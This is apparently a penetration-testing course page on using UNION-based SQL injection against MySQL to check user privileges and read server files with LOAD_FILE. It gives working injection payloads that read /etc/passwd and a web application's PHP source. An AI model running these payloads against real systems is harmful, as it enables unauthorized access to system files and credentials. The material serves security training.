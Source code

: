 # Reading Files

In addition to gathering data from various tables and databases within the DBMS, a SQL Injection can also be leveraged to perform many other operations, such as reading and writing files on the server and even gaining remote code execution on the back-end server.

***

## Privileges

Reading data is much more common than writing data, which is strictly reserved for privileged users in modern DBMSes, as it can lead to system exploitation, as we will see. For example, in `MySQL`, the DB user must have the `FILE` privilege to load a file's content into a table and then dump data from that table and read files. So, let us start by gathering data about our user privileges within the database to decide whether we will read and/or write files to the back-end server.

### **DB User**

First, we have to determine which user we are within the database. While we do not necessarily need database administrator (DBA) privileges to read data, this is becoming more required in modern DBMSes, as only DBA are given such privileges. The same applies to other common databases. If we do have DBA privileges, then it is much more probable that we have file-read privileges. If we do not, then we have to check our privileges to see what we can do. To be able to find our current DB user, we can use any of the following queries:

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

Our `UNION` injection payload will be as follows:

```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```

or:

```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

Which tells us our current user, which in this case is `root`:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This is very promising, as a root user is likely to be a DBA, which gives us many privileges.

### **User Privileges**

Now that we know our user, we can start looking for what privileges we have with that user. First of all, we can test if we have super admin privileges with the following query:

```sql
SELECT super_priv FROM mysql.user
```

Once again, we can use the following payload with the above query:

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

If we had many users within the DBMS, we can add `WHERE user="root"` to only show privileges for our current user `root`:

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The query returns `Y`, which means `YES`, indicating superuser privileges. We can also dump other privileges we have directly from the schema, with the following query:

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

From here, we can add `WHERE grantee="'root'@'localhost'"` to only show our current user `root` privileges. Our payload would be:

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

And we see all of the possible privileges given to our current user:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see that the `FILE` privilege is listed for our user, enabling us to read files and potentially even write files. Thus, we can proceed with attempting to read files.

***

## LOAD\_FILE

Now that we know we have enough privileges to read local system files, let us do that using the `LOAD_FILE()` function. The [LOAD\_FILE()](https://mariadb.com/kb/en/load_file/) function can be used in MariaDB / MySQL to read data from files. The function takes in just one argument, which is the file name. The following query is an example of how to read the `/etc/passwd` file:

```sql
SELECT LOAD_FILE('/etc/passwd');
```

{% hint style="info" %}
**Note:** We will only be able to read the file if the OS user running MySQL has enough privileges to read it.
{% endhint %}

Similar to how we have been using a `UNION` injection, we can use the above query:

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We were able to successfully read the contents of the passwd file through the SQL injection. Unfortunately, this can be potentially used to leak the application source code as well.

***

## Another Example

We know that the current page is `search.php`. The default Apache webroot is `/var/www/html`. Let us try reading the source code of the file at `/var/www/html/search.php`.

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

However, the page ends up rendering the HTML code within the browser. The HTML source can be viewed by hitting `[Ctrl + U]`.

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The source code shows us the entire PHP code, which could be inspected further to find sensitive information like database connection credentials or find more vulnerabilities.
